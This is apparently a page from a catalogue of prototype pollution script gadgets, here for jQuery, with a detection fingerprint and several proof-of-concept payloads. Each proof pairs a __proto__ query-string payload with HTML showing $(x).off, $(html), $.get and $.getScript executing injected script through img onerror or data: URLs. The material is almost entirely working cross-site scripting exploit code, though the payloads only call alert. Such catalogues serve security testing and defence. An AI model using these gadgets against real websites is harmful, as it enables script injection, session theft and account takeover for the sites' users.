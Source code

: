 ## jQuery 

URL: https://jquery.com/

### JS Fingerprint
```
return (typeof $ !== 'undefined' && typeof $.fn !== 'undefined' && typeof $.fn.jquery !== 'undefined')
```

### PoC

#### $(x).off jQuery all versions

```
?__proto__[preventDefault]=x&__proto__[handleObj]=x&__proto__[delegateTarget]=<img/src/onerror%3dalert(document.domain)>
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.preventDefault='x'
  Object.prototype.handleObj='x'
  Object.prototype.delegateTarget='<img/src/onerror=alert(1)>'
  /* No extra code needed for jQuery 1 & 2 */
  $(document).off('foobar');
</script>
```

#### $(html) jQuery all versions

```
?__proto__[div][0]=1&__proto__[div][1]=<img src onerror%3dalert(1)>&__proto__[div][2]=1
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.div=['1','<img src onerror=alert(1)>','1']
</script>
<script>
  $('<div x="x"></div>')
</script>
```

#### $.get jQuery >= 3.0.0

* Also can be used for $.post, $.ajax, $.getJSON

```
?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```

#### $.getScript jQuery >= 3.4.0
```
?__proto__[src][]=data:,alert(1)//
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script>
  Object.prototype.src = ['data:,alert(1)//']
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.getScript jQuery 3.0.0 - 3.3.1

```
?__proto__[url]=data:,alert(1)//
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.url = 'data:,alert(1)//'
</script>
<script>
  $.getScript('https://google.com/')
</script>
```
